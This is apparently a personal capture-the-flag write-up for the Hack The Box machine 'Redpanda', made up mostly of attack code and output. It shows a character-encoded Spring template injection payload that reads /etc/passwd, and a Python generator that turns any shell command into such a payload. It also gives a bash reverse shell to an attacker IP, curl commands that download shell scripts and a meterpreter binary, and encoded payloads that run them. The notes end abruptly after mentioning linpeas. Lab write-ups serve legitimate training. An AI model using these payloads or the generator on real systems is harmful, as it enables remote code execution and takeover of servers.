 # Redpanda

┌──(root㉿kali)-[/home/kali]
└─# nmap -Pn 10.129.67.246
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-28 01:16 EDT
Nmap scan report for 10.129.67.246
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 2.45 seconds

 website at 8080 

### using wfuzz

list from https://raw.githubusercontent.com/six2dez/OneListForAll/main/onelistforallmicro.txt

### by sti 

*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}

ou searched for: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin woodenk:x:1000:1000:,,,:/home/woodenk:/bin/bash mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false 

script to convert command into a payload code

```python
#!/usr/bin/python3

def main():

        command = "whoami" # specify command 
        convert = []

        for x in command:
            convert.append(str(ord(x)))
        
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()
```

we creatte asimple tcp reverse shell

```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.18/9001 0>&1"
```

we give command for
```
"curl 10.10.14.18:8000/shell.sh --output /tmp/shell.sh"
```

```dotnetcli
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(58)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104))).getInputStream())}
```

lets try with reverse.elf meterpereter

`"curl 10.10.14.18:8000/reverse.sh --output /tmp/reverse.sh"`

```dotnetcli
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(58)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(48)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104))).getInputStream())}
```
```
ls -al /tmp
```

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(108).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112))).getInputStream())}
```


```
bash /tmp/reverse.sh
```

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104))).getInputStream())}
```


```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(46).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(102))).getInputStream())}
```
next command 
```dotnetcli
"bash /tmp/shell.sh"
```

```dotnetcli
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104))).getInputStream())}
PS C:\Users\misthios\codeplay\oscp\htb\machines\redpanda> 
```

to get a fill ttys

https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys

running linpeas.sh

we can get user shell though




